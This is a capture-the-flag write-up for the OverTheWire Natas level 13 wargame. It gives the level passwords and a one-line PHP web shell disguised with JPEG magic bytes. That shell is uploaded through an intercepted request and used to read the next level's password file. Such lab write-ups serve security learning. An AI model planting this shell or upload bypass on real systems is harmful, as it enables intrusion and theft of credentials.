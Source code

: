 ### Natas Level 13

[natas13](http://natas13.natas.labs.overthewire.org)

**Username**: *natas13*

**Password**: *jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY*

### Solution

* Create a quick php shell (Level13-shell.php):

```bash
echo '\xFF\xD8\xFF\xE0<?php echo shell_exec($_GET[\'cmd\']);' > Level13-shell.php
```

* Intercept HTTP POST request(upload) using a proxy such as Burp.
* Change the filename to e.g. myshell.php
* Visit url http://natas13.natas.labs.overthewire.org/upload/<filename>.php?cmd=cat%20/etc/natas_webpass/natas14

#### Credentials for Level 14

**Username**: *natas14*

**Password**: *Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1*